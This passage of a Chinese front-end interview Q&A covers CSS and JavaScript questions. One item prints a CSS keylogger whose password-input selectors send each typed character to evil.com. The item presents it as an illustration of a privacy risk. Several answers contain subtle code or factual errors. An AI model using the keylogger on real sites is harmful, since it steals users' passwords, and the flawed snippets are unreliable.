                #58a 0, #58a 66.6%, yellowgreen 0);
    background-size: 100% 45px;
}
```

1. 垂直条纹

```css
{
    background: linear-gradient(to right, /* 或 90deg */
                #fb3 50%, #58a 0);
    background-size: 30px 100%;
}
```

1. 45deg斜条纹

```css
{
    background: linear-gradient(45deg,
                #fb3 25%, #58a 0, #58a 50%,
                #fb3 0, #fb3 75%, #58a 0);
    background-size: 30px 30px;
}

/*计算准确的15px宽斜条纹*/
{
    background: linear-gradient(45deg,
                #fb3 25%, #58a 0, #58a 50%,
                #fb3 0, #fb3 75%, #58a 0);
    background-size: 42.43px 42.43px;
}
```

1. 更好的斜向条纹

```css
/*循环渐变实现斜条纹*/
{
    background: repeating-linear-gradient(45deg,
                #fb3, #fb3 15px, #58a 0, #58a 30px);
}

/*两种方式结合*/
{
    background: repeating-linear-gradient(45deg,
                #fb3 0, #fb3 25%, #58a 0, #58a 50%);
    background-size: 42.43px 42.43px;
}
```

1. 灵活的同色系条纹

```css
{
    background: #58a;
    background-image: repeating-linear-gradient(30deg,
                      hsla(0,0%,100%,.1),
                      hsla(0,0%,100%,.1) 15px,
                      transparent 0, transparent 30px);
}
```

## 22.如何使用CSS实现跨浏览器的最小高度

[兼容浏览器的最小高度(min-height)](https://blog.csdn.net/Zerofishcoding/article/details/77979115?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1.control)

## 23.怎么设置可点击的元素上强制手型

~~~css
cursor: pointer
~~~

## 24.使用CSS实现悬浮提示文本

方法1：

~~~css
<div class="wrap">
    我是一个元素
    <div class="tips">
      这是悬浮提示文字
    </div>
</div>

<style>
  .wrap {
    position: relative;
    display: inline-block;
    margin: 4em;
  }

  .tips {
    position: absolute;
    top: -2em;
    left: 50%;
    display: none;
    white-space: nowrap;
    transform: translate(-50%,0);
  }

  .wrap:hover .tips {
    display: block;
  }
</style>
~~~

方法2：

~~~css
<div class="tips-demo" data-tips="提示文本">演示文本</div>

<style>
.tips-demo {
  position: fixed;
  bottom: 15px;
  right: 15px;
}

.tips-demo:after {
    content: attr(data-tips);
    position: absolute;
    top: 0;
    left: 0;
	right: 0;
	margin: 0 auto;
    white-space: nowrap;
	opacity: 0;
    transform: translateY(-150%);
    transition: .1s;
}

.tips-demo:hover:after {
	opacity: 1;
    transform: translateY(-100%);
}
</style>
~~~

## 25.如何禁用移动的选择高亮

[移动端H5页面禁止长按复制和去掉点击时高亮](https://www.cnblogs.com/xutongbao/p/9924823.html)

```css
*{  
     -webkit-touch-callout:none;  /*系统默认菜单被禁用*/  
     -webkit-user-select:none; /*webkit浏览器*/  
     -khtml-user-select:none; /*早期浏览器*/  
     -moz-user-select:none;/*火狐*/  
     -ms-user-select:none; /*IE10*/  
     user-select:none;  
}

*{ -webkit-tap-highlight-color: rgba(0,0,0,0);
     -webkit-tap-highlight-color: transparent; /* For some Androids */ 
}
```

## 26.颜色HSLA的字母分别表示什么

- H：Hue(色调)。0(或360)表示红色，120表示绿色，240表示蓝色，也可取其他数值来指定颜色。取值为：0 - 360
- S：Saturation(饱和度)。取值为：0.0% - 100.0%
- L：Lightness(亮度)。取值为：0.0% - 100.0%
- A：Alpha透明度。取值0~1之间。

## 27.说说你对table-layout的理解，它有什么运用场景

- table-layout 值为 fixed时单元格的宽度只与表格，单元格的宽度有关，与内容无关
- table-layout 值为 auto 时，单元格的宽度为当前列的最长行有的宽度来计算
- 如果想要一个table固定大小，里面的文字强制换行(尤其是在一长串英文文本，并且中间无空格分隔的情况下)，以达到使过长的文字不撑破表格的目的，一般是使用样式：`table-layout:fixed`。

## 28.怎么使用CSS选择空链接

~~~javascript
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <style type="text/css">
        a[href=''], a:not(href) {
            color: #ff3333;
        }

    </style>
</head>
<body>

你好<a>地球人</a>

</body>
</html>
~~~

## 29.如何隐藏没有静音、自动播放的音视频

- 浏览器已禁止打开页面时自动播放，可以用iframe先播触发播放权限，然后再播放
- 做一个`opacity:0`的假隐藏

## 30.使用CSS实现对话气泡的效果

~~~css
p.speech{
           position: relative;
           width: 50px;
           border:1px solid #666;
           padding: 2px;
           border-radius: 4px; 
       }
   p.speech::before{
       position: absolute;
       content: "";
       top:9px;
       left:-12px;
       width: 0;
       border:6px solid;
       border-color:transparent #666  transparent transparent;
   }
~~~

- [你需要知道的css](https://lhammer.cn/You-need-to-know-css)

## 31.你有使用过CSS的`writing-mode`属性吗？说说它有哪些应用场景

- 用于规定文字的书写方式
- horizontal-tb 从左到右从上到下(水平书写)
- vertical-rl 从上到下从右到左 (垂直书写)
- vertiacl-lr 从上到下从左到右
- sideways-rl：内容垂直方向从上到下排列
- sideways-lr：内容垂直方向从下到上排列

## 32.CSS中Scroll-behavior属性有什么应用场景

页面有hash做锚点的时候，可以在html和body上设置scroll-behavior: smooth;就会有一个简单过渡动画，但是这个属性支持的不是太好。

当用户手动点击导航或者API调用导致触发滚动操作时，scroll-behavior属性可以为滚动框设定滚动行为。auto表示立即滚动到指定位置，smooth则表示平滑过渡，需要一定的过度时间滚动到相应位置。但是兼容性支持不太好：



## 33.scroll-snap-align属性的应用场景是什么

- 滚动一个列表时，控制列表中一个块始终完全在可视区内,如果滚动到一半可以回弹，保持整个块都在可视区。
- 当简易的轮播插件来用
- [参考文章](https://blog.csdn.net/zgrbsbf/article/details/83511752)

## 34.如何用CSS实现把“我不爱996”变成“699爱不我”？

unicode-bidi 属性与 direction 属性一起使用，来设置或返回文本是否被重写，以便在同一文档中支持多种语言。
用`direction`属性设置`rtl`表示从右到左，默认是`ltr`从左到右的，另外还要搭配`unicode-bidi: bidi-override`，这样就解决了

~~~css
direction: rtl;unicode-bidi: bidi-override;
~~~

## 35.举例说明你对指针事件（pointer-events）的理解

- pointer-events CSS 属性指定在什么情况下 (如果有) 某个特定的图形元素可以成为鼠标事件的 target。
- 当point-events 为none时，比如a连接不再生效
- 用于实现穿透问题

## 36.鼠标事件CSS的`:hover`和js的mouseover有什么区别

* :hover为CSS伪类，mousehover为JS DOM事件。

* CSS只能改变元素样式，JS既可以改变元素样式又可以改变元素中的内容。

* :hover当鼠标移出后恢复之前的样式，mouseover需要结合mouseout才能恢复之前的样式

* 同等效果下，从性能上讲，:hover优于mousehover
* js的事件有冒泡，css的:hover没有冒泡

## 37.使用CSS的attr()写一个类似a标签title的提示框

```css
  .box{
       position:relative;
   }
   .box:hover{
       content: attr(data-title);    
       display: inline-block;
       padding: 10px 14px;
       border: 1px solid #ddd;
       border-radius: 5px;
       position: absolute;
       top: -50px;
       left: -10px;
   }
```

## 38.举例说明如何从HTML元素继承box-sizing

```css
*, *::before, *::after {
  box-sizing: inherit;
}

html {
  box-sizing: border-box;
}
```

## 39.异步加载CSS的方式有哪些

[异步加载CSS]()

- JS态插入link标签

- 在link标签上设置media属性为低优先级的 print
  文档渲染后改为screen

- ~~~css
  <link rel="preload" href="cssfile.css" as="style" onload="this.rel='stylesheet'">
  ~~~

- [参考文章](https://www.cnblogs.com/cjx-work/p/8133858.html)

## 40.CSS的加载会阻塞DOM树解析和渲染吗？为什么

- CSS的加载不会阻止DOM树的解析
- CSS的加载会阻止DOM树的渲染，因为css的下载完成后解析成CSSOM与DOM生成渲染树后，页面才会渲染，绘制出来

## 41.CSS的加载会阻塞JS运行吗？为什么

会阻塞JS的执行，因为JS可能会去获取或改变元素的样式，所以浏览器为了不重复渲染，会等所有的CSS加载渲染完成后再执行JS。

## 42.为了减小CSS文件的大小，怎么去除无用CSS呢？有哪些方法

可以使用PurgeCSS插件进行清理，功能强大，可以配置webpack rollup等打包工具使用。

## 43.在一个项目里，你是如何组织(架构)CSS代码的

[你是如何去组织项目中的 Less/Sass 代码的？](https://www.zhihu.com/question/35708352?sort=created)

[浅谈网站CSS组织架构](https://www.cnblogs.com/linroom/articles/2362609.html)

## 44. 使用纯CSS能否监控到用户的一些信息？怎么实现

可以，著名的[css keylogger](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css)：

```css
input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}

/* ...以此类推... */
```

当用户输入密码时，这段css会请求用户输入的字符对应的资源，远端服务器通过监视请求资源的顺序从而推断用户的密码。所以css也不是绝对安全的

## 45.请使用CSS3实现图片的平滑转换

以全局监听的方式通过 a 标签的描点进行 view 动态切换页面，只要把 a 标签带有 id 的 href 属性的值指到锚点，用 CSS3 的动画进行切换页面.

## 46.使用css画个钟表的时间刻度

```javascript
 <style>
      div {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      .container {
        width: 300px;
        height: 300px;
        margin: 100px auto;
        position: relative;
      }
      .circle {
        position: relative;
        width: 100%;
        height: 100%;
        border-radius: 50%;
        border: 5px solid #777;
      }
      .circle::before {
        position: absolute;
        content: '';
        width: 20px;
        height: 20px;
        background-color: black;
        border-radius: 50%;
        left: 50%;
        top: 50%;
        transform: translate(-50%, -50%);
        z-index: 100;
        opacity: 0.5;
      }

      .circle-line {
        position: absolute;
        left: 49.5%;
        width: 2px;
        height: 100%;
        background-color: black;
      }

      .line-30 {
        transform: rotate(30deg);
      }

      .line-60 {
        transform: rotate(60deg);
      }

      .line-120 {
        transform: rotate(120deg);
      }
      .line-150 {
        transform: rotate(150deg);
      }

      /* 水平垂直方向的指针更粗一些 */
      .line-0,
      .line-90 {
        width: 5px;
      }

      .line-90 {
        transform: rotate(90deg);
      }

      .circle-mask {
        position: absolute;
        top: 0;
        bottom: 0;
        left: 0;
        right: 0;
        background-color: #fff;
        border-radius: 50%;
        width: 100%;
        height: 100%;
        transform: scale(0.9);
        z-index: 10;
      }

      .circle-line::before,
      .circle-line::after {
        position: absolute;
      }

      .circle-line::before {
        top: -28px;
        left: -10px;
      }

      .circle-line::after {
        bottom: -28px;
        left: -10px;
      }

      .line-0::before {
        content: '12';
      }

      .line-0::after {
        content: '6';
      }

      .line-30::before {
        content: '1';
      }

      .line-30::after {
        content: '7';
      }

      .line-60::before {
        content: '2';
        transform: rotate(-90deg);
      }

      .line-60::after {
        content: '8';
        transform: rotate(-90deg);
      }

      .line-90::before {
        content: '3';
        transform: rotate(-90deg);
      }

      .line-90::after {
        content: '9';
        transform: rotate(-90deg);
      }

      .line-120::before {
        content: '4';
        transform: rotate(-90deg);
      }

      .line-120::after {
        content: '10';
        transform: rotate(-90deg);
      }

      .line-150::before {
        content: '5';
        transform: rotate(180deg);
      }

      .line-150::after {
        content: '11';
        transform: rotate(180deg);
      }
    </style>

```

~~~javascript
<div class="container">
      <div class="circle">
        <div class="circle-line line-0"></div>
        <div class="circle-line line-30"></div>
        <div class="circle-line line-60"></div>
        <div class="circle-line line-90"></div>
        <div class="circle-line line-120"></div>
        <div class="circle-line line-150"></div>
      </div>
      <div class="circle-mask"></div>
</div>
~~~

## 47.UI设计中px、pt、ppi、dpi、dp、sp之间的关系

[八一八那些px、pt、ppi、dpi、dp、sp之间的关系](https://blog.csdn.net/u012588160/article/details/80088863)

## 48.举例说明shape-outside的属性的用途有哪些

`shape-outside`定义了一个可以是非矩形的形状，相邻的内联内容应围绕该形状进行包装。

比如使用 shape-outside: circle(); 属性可以实现文字圆形环绕图片的效果。

## 49. 用CSS3画出一个立体魔方 

```javascript
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>立方体</title>
    <style>

        .box{
            width: 300px;
            height: 300px;
            margin: 100px auto;
            perspective: 500px;
        }
        .con{
            position:relative;
            width:300px;
            height:300px;
            transform-style:preserve-3d;
            transform-origin:50% 50% -150px;
            animation:rotate 4s infinite;
        }
        .con .side{
            position:absolute;
            width:300px;
            height:300px;
            font-size:44px;
            line-height: 300px;
            text-align: center;
        }
        .con .before{
            background-color: rgba(0,0,0,0.4);
        }
        .con .left{
            background-color: rgba(255,0,0,0.4);
            left:-300px;
            top:0;
            transform:rotateY(-90deg);
            transform-origin:right;
        }
        .con .right{
            background-color: rgba(255,255,0,0.4);
            left:300px;
            top:0;
            transform:rotateY(90deg);
            transform-origin:left;
        }
        .con .top{
            background-color: rgba(0,255,0,0.4);
            left:0;
            top:-300px;
            transform:rotateX(90deg);
            transform-origin:bottom;
        }
        .con .bottom{
            background-color: rgba(0,0,255,0.4);
            left:0;
            top:300px;
            transform:rotateX(-90deg);
            transform-origin:top;
        }
        .con .back{
            background-color: rgba(200,122,0,0.4);
            transform:translateZ(-300px);
        }

        @keyframes rotate{
            0%{
                transform:rotateX(0) rotateY(0);
            }
            50%{
                transform:rotateX(0) rotateY(360deg);
            }
            100%{
                transform:rotateX(360deg) rotateY(360deg);
            }
        }
    </style>
</head>
<body>
<div class="box">
    <div class="con">
        <div class="side before">前</div>
        <div class="side back">后</div>
        <div class="side top">上</div>
        <div class="side bottom">下</div>
        <div class="side left">左</div>
        <div class="side right">右</div>
    </div>
</div>
</body>
</html>
```

## 50.如何重写行内样式？方法有哪些（至少两种）

*  !important 最高级

* `var divStyle = document.querySelector('#div').style; ` 修改属性

# JS

## 1.axios相比原生ajax的优点有哪些呢

- 从 node.js 创建 http 请求
- 在浏览器中创建 XMLHttpRequests
- 支持 Promise API
- 提供了一些并发请求的接口（重要，方便了很多的操作）
- 支持拦截请求和响应
- 转换请求和响应数据
- 取消请求
- 自动转换 JSON 数据
- 客户端支持防止CSRF
- 客户端支持防御 XSS

## 2.写一个方法删除字符串中所有相邻重复的项

回答1：可以利用正则：

```javascript
'aabbaaaaccdeee'.replace(/(.)\1*/g, '$1');  // abacde
```

回答2：

~~~javascript
function delneighbor(string) {
    if(string.length <= 1) {
        return string
    }
    let prev = string[0];
    let result = prev;
    let i = 1;
    while(i < string.length) {
        const current = string[i++];
        if(current == prev) {
            continue;
        }
        prev = current;
        result += current;
    }
    return result;
}
~~~

## 3.如何让JS的filter方法支持大小写

使用正则表达式即可。

## 4.写一个方法检查给定的函数是否为JS运行时环境的内置函数

~~~javascript
function isNativeFunc (func) { // 判断函数是否为运行时环境的内置函数
    return /[native code]/.test(func)
}
~~~

## 5.用JS写一个方法检测指定的函数体是否为空

~~~javascript
function testFunctionBodyEmpty(fun){
	if(typeof fun !== 'function') 
		throw new Error('testFunctionBodyEmpty参数类型必须为function');
	return /\{\}$/.test(fun.toString().replace(/\s/g,''))
}
~~~

## 6. 表达式和语句有什么区别？如何把语句转换为表达式

简单的说来，表达式(Expression)是语句(Statement)的子集，表达式一定会返回一个值，而语句不会。

比如定义变量、返回语句都属于语句，而逻辑判断、方法调用、赋值都属于表达式。

支持语句的地方都支持表达式，而只支持表达式的地方不支持语句。

表达式：

> const foo = 'foo'

> return foo

语句：

> foo = 'foo'

> foo > bar

> foo()

------

如果你在仅支持表达式的位置写语句，则会报错，举个例子：

For循环的格式为：

> for( `语句`, `表达式`, `表达式` ) {
> `语句`
> }

如果在仅支持表达式的位置写语句，则会报错：

```javascript
for(let i = 0; let j = 0; i++) {  // Uncaught SyntaxError: Unexpected identifier
  console.log(i);
}
```

以及不包含大括号的箭头函数的格式为：

> () => `表达式`

如果写入语句就会报错：

```javascript
let foo = () => return 'foo';  // Uncaught SyntaxError: Unexpected token 'return'
```

------

可以使用[IIFE](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)将语句转为表达式：

```javascript
const foo = (() => {
  return 'foo';
})();
```

> 注意：单纯使用括号是没办法把语句转化为表达式的：

```javascript
(let foo = 'foo')  // Uncaught SyntaxError: Unexpected identifier
```

## 7.写一个方法把对象和字符串互转

对于对象里面如果只有普通的像int、string、bool类型当然可以直接使用JSON.stringify和JSON.parse()但是当里面有函数方法的时候就会被忽略，这时候需要用到序列化函数去处理。

```javascript
let test  = {
    name:'name',
    city:'city',
    age:12,
    callback:function name(){
        console.log('测试');
    },
}

let testString = JSON.stringify(test);
console.log(testString);
//输出{"name":"name","city":"city","age":12}
```

## 8. JS如何监听页面缩放

`window.onresize`

## 9.请解释下如下JS代码对数组排序后的输出结果

[javascript中比较数字大小](https://www.cnblogs.com/xyyt/p/3980063.html)

```javascript
var result = [55, 22, 168]; 
console.log(result.sort());
```

输出结果为[168,22,55]，因为默认sort是先执行value.toString(),然后再进行比较，如果要比较数字的话直接

```javascript
result.sort((a,b)=>a-b;);
```

## 10.说下JS的`parseInt()`和`Number()`有什么区别

```javascript
// 当字符串是由数字组成的时候 他们转换的数字一样的没有差别  
let numStr = '123'
console.log(parseInt(numStr))   //123
console.log(Number(numStr))		//123

// 当字符串是由字母组成的时候 
let numStr = 'abc'
console.log(parseInt(numStr))   //NaN
console.log(Number(numStr))		//NaN

// 当字符串是由数字和字母组成的时候 
let numStr = '123a'
console.log(parseInt(numStr))   //123
console.log(Number(numStr))		//NaN

// 当字符串是由0和数字
let numStr = '0123'
console.log(parseInt(numStr))   //123
console.log(Number(numStr))		//123

// 当字符串包含小数点
let numStr = '123.456'
console.log(parseInt(numStr))		//123
console.log(Number(numStr))			//123.456

// 当字符串为null时
let numStr = null
console.log(parseInt(numStr))		//NaN
console.log(Number(numStr))			//0

// 当字符串为''(空)时
let numStr = ''
console.log(parseInt(numStr))		//NaN
console.log(Number(numStr))			//0
```

## 11.DOM0、DOM2、DOM3事件处理方式的区别是什么

```javascript
   1.DOM0级事件处理方式：
      btn.onclick = func;
      btn.onclick = null;
   2.DOM2级事件处理方式：
      btn.addEventListener('click', func, false);
      btn.removeEventListener('click', func, false);
      btn.attachEvent("onclick", func);//IE
      btn.detachEvent("onclick", func);//IE
   3.DOM3级事件处理方式：
      eventUtil.addListener(input, "textInput", func);
      eventUtil 是自定义对象，textInput 是DOM3级事件
```

[参考文章](https://blog.csdn.net/YYT_0109/article/details/88529101)
[参考文章](https://blog.csdn.net/deniro_li/article/details/73605359?depth_1.utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)

## 12.W3C的事件处理和IE的事件处理有哪些区别

- 绑定事件 W3C：`addEventListener` ;IE：`attachEvent`
- 移除事件 W3C：`removeEventListner`;IE：`detachEvent`
- 阻止默认事件 W3C：`e.preventDefault`; IE：`window.event.returnValue = false`
- 阻止事件传播 W3C：`e.stopPropagation;` IE ：`winow.event.cancelBuble = true`
- [参考文章](https://blog.csdn.net/qq_35886593/article/details/89150055)

## 13.如何用JS获取DOM元素在页面中的绝对位置

- 递归获取

  ```javascript
   function getTop(e){
       var offset=e.offsetTop;
       if(e.offsetParent!=null) offset+=getTop(e.offsetParent);
       return offset;
   }
  ```

## 14.看下面代码，判断a和b的类型是否为true？为什么？什么是基本包装类型

~~~javascript
var a=1;
var b = new Number(1);
typeof(a)===typeof(b);
~~~

先说结果，输出是false；
a是基本数据类型number，b是通过new 操作符创建的引用类型实例，所以typeof(b) 是object，因而结果为false。
基本包装类型是ECMAScript为了便于操作基本类型值提供的三种特殊的引用类型（function）,包括：Number、String、Boolean

## 15. 说说你对HTML5中video blob的理解

[初识 HTML5 Video Blob](https://www.jianshu.com/p/d1824e818a09)

## 16. 切换标签窗口后JS定时器自动停止了，如何在激活标签后又继续呢

- 可以利用visibilitychange事件；在事件中重新开启定时器

## 17. JS如何解决数字精度丢失的问题

https://forever-z-133.github.io/demo-preview/#/./pages/function/someFunction?id=-数字计算
这个函数也写过，但也存在幂次方或运算时超出安全数的问题。

另外提一嘴，在翻倍到整数时直接乘也是不稳妥的，
最好乘后还要四舍五入，或转为字符串 replace 掉小数点毕竟稳妥。

## 18.用JS实现一个加法的方法

JavaScript 能表示并进行精确算术运算的整数范围为：[-253-1，253-1]。

```javascript
Math.pow(2, 53)-1 ;// 9007199254740991
-Math.pow(2, 53)-1 ;// -9007199254740991
console.log(Number.MAX_SAFE_INTEGER) ;// 9007199254740991
console.log(Number.MIN_SAFE_INTEGER) ;// -9007199254740991
```

只考虑大整数相加的情况（不算0.1+0.2之类的）：

```javascript
function sumStrings(a,b) {  
    if(typeof a !== 'String' || typeof b !== 'String')return;//参数必须字符串
    //通过补零让a和b对齐  
    while(a.length < b.length)a = "0" + a;  //若a比b短，则对a补零  
    a = a.split('');//字符串转化成数组
    while(b.length < a.length)b = "0" + b;  //若b比a短，则对b补零
    b = b.split('');//字符串转化成数组
    var addOne = 0;  //是否有进位  
    var result = []; //结果数组  
    //从个位开始相加  
    while(a.length){
        var c1 = a.pop() - 0;//pop：删除数组最后一个元素，并返回该元素
        var c2 = b.pop() - 0;
        var sum = c1 + c2 + addOne;  
        //若数字相加大于9，则进位  
        if(sum > 9){  
            result.unshift(sum - 10);  
            addOne = 1;  
        }  
        else{  
            result.unshift(sum);  
            addOne = 0;  
        }  
    }  
    //应付下面的情况：  
    if(addOne) result.unshift(addOne);  //"99" + "11" => "110"，它最后仍然要进位
    if(!result[0])result.splice(0,1);  //"01" + "01" => "2"，而不是"02"，所以移除第一位的"0"  

    return result.join("");  
}
sumStrings("10000000000000000000000000","11111111111111111111111111");//21111111111111111111111111
```

## 19.什么是UUID？它有什么作用？用JS写一个生成UUID的方法

[JS生成 UUID的四种方法](https://www.cnblogs.com/zhou195/p/7498537.html)

UUID就是全局唯一标识符。通过同一种算法生成的UUID在任何情况下不允许重复。

## 20.在axios中怎样添加授权验证

在创建axios实例后

```javascript
var instance = axios.create({
	baseURL: 'https://api.example.com'
});
instance.defaults.headers.common['Authorization'] = AUTH_TOKEN;
```

## 21.有用过Handlebars模板引擎吗？它的工作原理是怎样的

- Handlebars是运用到前端，预编译，数据和视图分离的模板引擎
- 模板引擎内置一些模板标签符号，然后根据这些标签符号，正则识别，
  编译成生成html字符串的函数，传入我的数据输出html字符串

## 22.用JS写一个绑定事件检测窗口大小

~~~javascript
 window.onresize = function(e){
     console.log(e)
 }
~~~

## 23.说说你对JS中的依赖注入的理解，它的实现方式有哪些呢

黄玄的[《JS模块化七日谈》](https://huangxuan.me/js-module-7day/#/)

第一日 上古时期 Module? 从设计模式说起
第二日 石器时代 Script Loader 只有封装性可不够，我们还需要加载
第三日 蒸汽朋克 Module Loader 模块化架构的工业革命
第四日 号角吹响 CommonJS 征服世界的第一步是跳出浏览器
第五日 双塔奇兵 AMD/CMD 浏览器环境模块化方案
第六日 精灵宝钻 Browserify/Webpack 大势所趋，去掉这层包裹！
第七日 王者归来 ES6 Module 最后的战役

## 24.说下你对IoC的理解，它有什么运用场景

- 控制反转要实现的时上层不依赖下层(采用依赖注入---传参--上层类实例的属性值为下层类实例)
- 比如一个请求获取SQL数据时，我们根据不同的数据传入不同的数据库操作类的实例，实现同一接口操作不同的数据库接口
- [依赖倒置原则](https://www.zhihu.com/question/23277575)

## 25. 请说说commonJS模块与ES模块的差异有哪些

- CommonJS模块输出的是一个值的复制，ES6模块输出的是值得引用。
- CommonJS模块是运行时加载，ES6模块是编译时输出接口。
- [参考资料](https://blog.csdn.net/qq_41805715/article/details/84969341)

## 26.举例说明为什么说ES模块比commonJS模块还优秀

- ES模块是编译型的，所有的运行都是在模块内部
- ES模块引入多次只会引入一次
- ES模块允许进行静态分析，从而实现像 tree-shaking 的优化，并提供诸如循环引用和动态绑定等高级功能。
- [参考文章](https://blog.csdn.net/gtLBTNq9mr3/article/details/95937339)

## 27.什么是函数式编程？它有什么优缺点

- 函数式编程是一种编程范式，关心数据的映射
- 函数式编程的函数是引用透明的，无副作用，函数的返回值只与函数的参数有关，容易测试和维护
- 函数式编程的函数的参数是不可变的，会导致，运行时占用资源较多。
- 函数范式的真正优点是 高阶函数的抽象能力
- 一般为纯函数, 无副作用, 容易推理代码逻辑, 方便单独测试.
- [参考文章](https://baike.baidu.com/item/函数式编程/4035031)

## 28.你知道什么是纯函数吗

* 纯函数是个计算机术语，这点与语言无关。

* 纯函数的特征是确定了输入就一定可以确定输出，并且无副作用。

* 举例子 ，我们在Redux设计模式下，reducer就是一个个的纯函数，我们只是根据参数，按照规则创建新的state，对于老的state，我们只消费，不修改。
* 函数的输入决定输出，与其他无关，并且无任何副作用

## 29.举例说明什么是响应式编程

响应式编程是一种面向数据流和变化传播的编程范式。这意味着可以在编程语言中很方便地表达静态或动态的数据流，而相关的计算模型会自动将变化的值通过数据流进行传播。

例如，在命令式编程环境中，a=b+c表示将表达式的结果赋给a，而之后改变b或c的值不会影响a。但在响应式编程中，a的值会随着b或c的更新而更新。

电子表格程序就是响应式编程的一个例子。单元格可以包含字面值或类似"=B1+C1"的公式，而包含公式的单元格的值会依据其他单元格的值的变化而变化。

响应式编程最初是为了简化交互式用户界面的创建和实时系统动画的绘制而提出来的一种方法，但它本质上是一种通用的编程范式。

## 30. JS循环的数据量很大（例如100W+）时会出现什么情况？如何进行性能优化

现在js代码的编译和执行都是混合了JIT的解释器和编译器两种模式，起初在执行一段代码的时候都是边解释边执行，这种模式在执行普通的代码时候效率更高，因为不需要进行预编译就可以直接运行代码。

但是当遇到大量的循环的时候，这种模式效率就会变得低下，因为每次循环的结果几乎都是一定的，但是解释器会不停地把时间浪费在类型检查和行为决策上。

当一行代码重复了很多次，并且每次行为都是一致的时候，JS引擎就会单独把这段代码丢进编译器（基线编译器）进行编译，编译过的代码效率会更高。

而当这段代码重复了太多次（~>10000次）后，JS引擎会再次将这段代码进行优化编译（优化编译器），从而绕过所有的类型检查和行为决策，直接假设性的做出类型判断然后执行，这种行为非常高效，但也很危险，所以JS会在执行前验证自己的假设，如果假设不合理，则将这段代码丢弃而回到基线编译器或者解释器执行，这反而会浪费大量时间。

------

所以在进行大量循环的时候，为了保证优化编译器能正常启动，必须保证**每次循环的类型一致**，不能前10000条数据的`num`是数字，结果第10001条数据的`num`是字符串，这在TypeScript里可以很好地保证这一点。

曾经也有人利用优化编译器的这一特性，利用BUG绕过了类型检查，从而让JS将object当成number输出，导致对象内存地址暴露甚至可以随意篡改，有兴趣的可以看看：[WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit)

## 31.日常开发中写JS循环时应该注意哪些情况

- 检查循环条件是否成立，避免死循环
- 不要在循环中破坏目标结构，比如修改了数组长度
- 避免多层循环
- 避免使用var声明的索引，尽量使用let
- 善用continue和break

## 32.用JS实现一个HashMap，不可以使用Object

[漫画：什么是HashMap？](https://www.cnblogs.com/qingyunzong/p/9143233.html)

- 利用双数组来实现，一个存key 一个存值（这样实现，仅仅是普通的map，不是正常的hashMap)
- [双数组参考实现](https://github.com/haizlin/fe-interview/issues/2049#issuecomment-598567885)
- [HashMap实现](https://github.com/longhui520/javascript-algorithms/blob/master/src/data-structures/hash-table/HashTable.js)

## 33.用JS实现typeof的功能

```javascript
function getType(obj){
        return Object.prototype.toString.call(obj).slice(8,-1).toLowerCase()
}
```

## 34.请举例说明`JSON.stringify()`有哪些特性

[JSON.stringify()](https://www.w3school.com.cn/js/js_json_stringify.asp)

JSON.stringify() 九大特性

JSON.stringify()第一大特性

对于 undefined、任意的函数以及 symbol 三个特殊的值分别作为对象属性的值、数组元素、单独的值时 JSON.stringify()将返回不同的结果。

```javascript
const data = {
  a: "aaa",
  b: undefined,
  c: Symbol("dd"),
  fn: function() {
    return true;
  }
};
JSON.stringify(data); // 输出：？

// "{"a":"aaa"}"
```

- undefined、任意的函数以及 symbol 作为对象属性值时 JSON.stringify() 将跳过（忽略）对它们进行序列化

假设 undefined、任意的函数以及 symbol 值作为数组元素会是怎样呢？

```javascript
JSON.stringify(["aaa", undefined, function aa() {
    return true
  }, Symbol('dd')])  // 输出：？

// "["aaa",null,null,null]"
```

undefined、任意的函数以及 symbol 作为数组元素值时，JSON.stringify() 会将它们序列化为 null

```javascript
JSON.stringify(function a (){console.log('a')})
// undefined
JSON.stringify(undefined)
// undefined
JSON.stringify(Symbol('dd'))
// undefined
```

undefined、任意的函数以及 symbol 被 JSON.stringify() 作为单独的值进行序列化时都会返回 undefined

JSON.stringify() 第二大特性

非数组对象的属性不能保证以特定的顺序出现在序列化后的字符串中。

```javascript
const data = {
  a: "aaa",
  b: undefined,
  c: Symbol("dd"),
  fn: function() {
    return true;
  },
  d: "ddd"
};
JSON.stringify(data); // 输出：？
// "{"a":"aaa","d":"ddd"}"

JSON.stringify(["aaa", undefined, function aa() {
    return true
  }, Symbol('dd'),"eee"])  // 输出：？

// "["aaa",null,null,null,"eee"]"
```

JSON.stringify() 第三大特性

转换值如果有 toJSON() 函数，该函数返回什么值，序列化结果就是什么值，并且忽略其他属性的值。

```javascript
JSON.stringify({
    say: "hello JSON.stringify",
    toJSON: function() {
      return "today i learn";
    }
  })
// "today i learn"
```

JSON.stringify()第四大特性

JSON.stringify() 将会正常序列化 Date 的值。

```javascript
JSON.stringify({ now: new Date() });
// "{"now":"2019-12-08T07:42:11.973Z"}"
```

实际上 Date 对象自己部署了 toJSON() 方法（同Date.toISOString()），因此 Date 对象会被当做字符串处理。

JSON.stringify() 第五大特性

NaN 和 Infinity 格式的数值及 null 都会被当做 null。

直接上代码：

```javascript
JSON.stringify(NaN)
// "null"
JSON.stringify(null)
// "null"
JSON.stringify(Infinity)
// "null"
```

JSON.stringify() 第六大特性

布尔值、数字、字符串的包装对象在序列化过程中会自动转换成对应的原始值。

```javascript
JSON.stringify([new Number(1), new String("false"), new Boolean(false)]);
// "[1,"false",false]"
```

JSON.stringify() 第七大特性

其他类型的对象，包括 Map/Set/WeakMap/WeakSet，仅会序列化可枚举的属性。

```javascript
// 不可枚举的属性默认会被忽略：
JSON.stringify( 
    Object.create(
        null, 
        { 
            x: { value: 'json', enumerable: false }, 
            y: { value: 'stringify', enumerable: true } 
        }
    )
);
// "{"y":"stringify"}"
```

JSON.stringify() 第八大特性

